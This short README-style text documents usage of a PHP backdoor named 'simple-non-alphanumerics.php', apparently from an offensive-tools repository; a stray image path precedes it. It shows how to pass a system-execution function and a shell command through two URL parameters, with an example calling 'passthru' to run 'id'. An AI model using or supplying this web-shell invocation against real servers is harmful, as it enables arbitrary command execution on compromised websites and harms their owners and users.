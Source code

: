 # PHP Backdoor Usage
### For simple-non-alphanumerics.php
- Usage: blabla.php?_=<systeme xec function>&__=<command>
- Example: blabla.php?_=passthru&__=id

